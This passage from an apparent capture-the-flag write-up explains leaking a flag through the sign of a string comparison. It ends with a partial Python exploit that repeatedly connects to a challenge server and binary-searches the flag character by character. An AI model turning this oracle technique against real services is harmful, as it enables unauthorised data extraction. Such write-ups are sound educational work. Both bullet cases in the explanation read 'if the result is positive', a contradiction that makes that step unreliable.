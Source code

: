 Depending on the result of the `string.Compare` call:

- if the result is positive, the 4th byte is all zeros
  - no edges, we have a fully disconnected subgraph of size 6. Not approved.
- if the result is positive, the 4th byte is all ones
  - some edges exist,there is no fully disconnected or fully connected subgraph of size 6. Approved.

We can therefore find the value of the 4th byte and the sign of the comparison with the flag.

We have everything we need. 
We can now setup a binary search by adding a character at a time to our input and checking if the result of the compare is positive or negative.

The exploit:

```python
#!/usr/bin/env python3
from socket import socket
import time

host = '180.163.241.15'
port = 10658

def testflag(flag):
    sock = socket()
    sock.connect((host, port))
    # overwrite comm
    sock.send(b'3\n')
    sock.send(b'1\n')  # one line
    sock.send(flag.encode() + b'\n')
    res = b''
    while not (b'Correct' in res or b'Incorrect' in res):
        time.sleep(0.1)
        res += sock.recv(1024)
    print(res)
    if b'Correct' in res:
        return 0
    # leak sign bit
    sock.send(b'2\n')
    sock.send(b'6\n')  # 6 nodes
    sock.send(b'6\n')  # threshold = 6
    sock.send(b'0\n')  # no edges
    res = b''
    while not b'party' in res:
        time.sleep(0.1)
        res += sock.recv(1024)
    print(res)
    sock.close()
    if b'does not approve' in res:
        return 1  # flag is bigger
    elif b'approves' in res:
        return -1  # flag is smaller
    else:
        raise Exception('something wrong')

flag = ''
newchar = ''
for l in range(100):
    flag += newchar
    print(l)
    print(flag)
    minv = 0x20
    maxv = 0x7e
    while minv != maxv:
        newchar = chr(minv + (maxv - minv) // 2)
        newflag = flag + newchar
```
